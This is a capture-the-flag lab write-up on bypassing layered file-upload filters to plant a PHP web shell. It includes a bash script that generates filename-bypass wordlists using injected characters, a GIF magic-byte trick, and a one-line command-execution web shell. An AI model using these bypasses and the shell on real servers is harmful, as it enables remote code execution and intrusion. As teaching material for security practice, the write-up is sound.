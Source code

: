 # Type Filters

The above server employs Client-Side, Blacklist, Whitelist, Content-Type, and MIME-Type filters to ensure the uploaded file is an image. Try to combine all of the attacks you learned so far to bypass these filters and upload a PHP file and read the flag at "/flag.txt"

As the Lab suggests, the server employs Client-Side, Blacklist, Whitelist, Content-Type, and MIME-Type filters to guarantee that the file uploaded is an image.

So we must apply all the knowledge learned so far.

We start by capturing the request and send to the Intruder.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Lets cover 3 components in this test:

* File extension - filename="§x§"
* Content-type - image/jpg
* File Signature - GIF8

We placed the `<?php echo "shell test";?>` to see if the php code was acttually executed.

To iterate the values of the file extensions let's create our own wordlist with the following script:

```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps' 'php3' '.phar'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```

Copy the content to the Intruder's payload configuration and run it. Don't forget to untick the payload encoding checkbox.

We placed the `<?php echo "shell test";?>` to see if the php code was acttually executed.

When the Intruder finishes the attack we can order by length, since the successfully uploaded files have a length of 229 and 230.

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now lets modify the Request by send it to the Repeater.

<figure><img src="../../../.gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

We change the name (optional) to **shell.gif:.phar** and for the php code we change to this:

```php
<?php system($_REQUEST['cmd']); ?>
```



<figure><img src="../../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

We do a simple just by execute the `id` command, as we can see from the output the above we manage to get a webshell!

<figure><img src="../../../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

Now we just have to found the flag, that in our case is in our root directory.
